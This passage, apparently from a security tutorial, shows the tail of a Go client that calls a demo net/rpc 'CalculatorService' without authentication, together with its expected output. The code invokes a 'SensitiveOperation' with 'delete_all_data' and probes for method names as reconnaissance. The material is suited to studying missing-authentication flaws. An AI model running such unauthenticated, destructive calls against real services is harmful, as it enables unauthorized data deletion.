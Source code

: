 ```go
	} else {
		fmt.Printf("Successfully called GetSystemTime: %s\n", replyTime)
	}

	// --- Exploitation Goal 3: Unauthorized Sensitive Operation (SensitiveOperation) ---
	fmt.Println("\n--- Attempting to call CalculatorService.SensitiveOperation without authentication ---")
	sensitiveArg := "delete_all_data"
	var sensitiveReply string
	err = client.Call("CalculatorService.SensitiveOperation", &sensitiveArg, &sensitiveReply)
	if err!= nil {
		log.Printf("Error calling SensitiveOperation: %v", err)
	} else {
		fmt.Printf("Successfully called SensitiveOperation: %s\n", sensitiveReply)
	}

	// --- Exploitation Goal 4: Probing for non-existent methods (Reconnaissance/Error Handling Test) ---
	fmt.Println("\n--- Attempting to call a non-existent method (Reconnaissance/Error Test) ---")
	var replyNonExistent string
	err = client.Call("CalculatorService.NonExistentMethod", &struct{}{}, &replyNonExistent)
	if err!= nil {
		// Expected error: "rpc: can't find method CalculatorService.NonExistentMethod"
		// This confirms the RPC endpoint is reachable and processing requests,
		// and provides information about valid/invalid methods.
		fmt.Printf("Error calling NonExistentMethod (expected): %v\n", err)
	} else {
		fmt.Printf("Unexpected success calling NonExistentMethod: %s\n", replyNonExistent)
	}
}
```

**Expected Output (Client Side):**

```bash
Successfully connected to the RPC server.

--- Attempting to call CalculatorService.Add without authentication ---
Successfully called Add: 10 + 5 = 15

--- Attempting to call CalculatorService.GetSystemTime without authentication ---
Successfully called GetSystemTime: 2024-XX-XXTXX:XX:XXZ (actual current time)

--- Attempting to call CalculatorService.SensitiveOperation without authentication ---
Successfully called SensitiveOperation: Operation 'delete_all_data' completed without authorization.

--- Attempting to call a non-existent method (Reconnaissance/Error Test) ---
Error calling NonExistentMethod (expected): rpc: can't find method CalculatorService.NonExistentMethod
```
